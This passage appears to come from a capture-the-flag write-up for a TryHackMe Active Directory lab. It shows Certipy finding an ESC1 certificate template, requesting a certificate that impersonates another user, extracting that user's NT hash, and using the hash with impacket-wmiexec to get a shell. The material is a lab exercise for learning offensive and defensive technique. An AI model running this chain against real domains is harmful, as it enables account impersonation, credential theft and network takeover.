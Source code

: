 ```bash
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
        Write Dacl Principals           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
        Write Property Principals       : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'THM.LOCAL\\Domain Computers' and 'THM.LOCAL\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
```

<br>


```bash
(venv) :~/Ledger#  certipy req -u 'Susanna_McKnight@thm.local' -p 'Cxxxxxxxxx23!' -dc-ip 'TargetIP' -target 'labyrinth.thm.local' -ca 'thm-LABYRINTH-CA' -template 'ServerAuth' -upn 'Bradley_Ortiz@thm.local'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 32
[*] Got certificate with UPN 'Bradley_Ortiz@thm.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'bradley_ortiz.pfx'
```

<br>

```bash
(venv) :~/Ledger#  certipy auth -pfx bradley_ortiz.pfx -dc-ip TargetIP
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: bradley_ortiz@thm.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'bradley_ortiz.ccache'
[*] Trying to retrieve NT hash for 'bradley_ortiz'
[*] Got hash for 'bradley_ortiz@thm.local': ........1404ee:16ec31963c93240962b7e60fd97b495d
```

<br>

```bash
(venv) :~/Ledger#  apt install python3-impacket
```

<br>

```bash
(venv) :~/Ledger#  impacket-wmiexec -hashes ........1404ee:16ec31963c93240962b7e60fd97b495d THM.LOCAL/bradley_ortiz@labyrinth.thm.local
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```
